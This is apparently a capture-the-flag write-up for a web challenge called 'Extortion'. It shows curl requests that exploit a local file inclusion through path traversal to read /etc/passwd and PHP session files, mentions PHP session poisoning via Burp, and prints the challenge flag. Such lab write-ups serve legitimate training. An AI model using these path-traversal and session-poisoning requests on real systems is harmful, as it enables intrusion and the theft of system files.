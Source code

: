 # Extortion
## Enumeration
Clicking around I notice a parameter in the url that might be injectable.
```html
http://138.68.168.137:32195/?f=airship.php
```

I send the command over to curl to test for an LFI by attempting to view /etc/passwd. It appears the command worked succesfully.

```bash
curl http://138.68.168.137:32195/?f=../../../../etc/passwd

...snip...

 React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
"), /*#__PURE__*/
)));
}
</script>
</body>
</html>
```

## Locating the flag
Unfortunetly the flag isn't just named flag, so I had to get creative on how to gain execution on the system. I knew the system was using PHP, so I checked for logs, environ variables for something I could control. I ended up finding a PHPSESSID being set when sending a ship home.
![Image](<../Pasted image 20210422211651.png>)

I sen this request over to burpsuite and injected some PHP code.

![Image](<../Pasted image 20210422211726.png>)

I can now request my PHP sess id from the _/tmp/sess_phpsessid_ file. 

```bash
curl 'http://138.68.168.137:32195/?f=../../../../tmp/sess_b53f826be5c7e28e0bfb18572c3102f4'
..snip...
 React.createElement("p", null, "plane|s:54:"/var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt
";"), /*#__PURE__*/
...snip...
```

Voila, I had located the flag on this sytem, all that was left is to request the file.

```bash
curl 'http://138.68.168.137:32195/?f=../../../..//var/www/html/flag_ffacf623917dc0e2f83e9041644b3e98.txt'
...snip...
React.createElement("p", null, "CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
...snip...
```
